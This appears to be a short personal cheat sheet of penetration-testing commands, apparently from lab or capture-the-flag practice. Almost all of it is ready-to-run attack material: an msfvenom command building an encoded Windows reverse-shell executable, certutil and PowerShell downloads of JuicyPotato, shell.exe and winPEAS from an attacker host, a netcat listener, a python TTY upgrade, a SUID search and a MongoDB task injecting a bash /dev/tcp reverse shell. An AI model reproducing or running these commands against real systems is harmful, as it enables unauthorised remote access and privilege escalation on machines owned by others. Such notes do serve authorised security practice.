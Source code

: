 For spawning a shell
python -c 'import pty;pty.spawn("/bin/bash")';
python3 -c 'import pty;pty.spawn("/bin/bash")';


download from attacking to target for windows
certutil -urlcache -f http://10.8.102.117:80/JuicyPotato.exe jp.exe

or 


msfvenom --platform Windows -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.102.117 LPORT=1234 -f exe -o shell.exe

powershell Invoke-WebRequest -Uri http://10.8.102.117:80/shell.exe -Outfile 'C:\Windows\Temp\shell.exe'

then create listener 
nc -lvnp 1234 


Check command that can run as sudo.
sudo -l


powershell Invoke-WebRequest -Uri http://10.8.102.117:80/winpeas.bat -Outfile 'C:\Windows\Temp\winpeas.bat'


check processes
ps auxww

for mongodb
> db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.14.23/1337 0>&1'"})


find / -perm +6000 2>/dev/null | grep '/bin/'




#### Windows Privilege Escalation #####

https://infosecwriteups.com/privilege-escalation-in-windows-380bee3a2842

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#user-enumeration
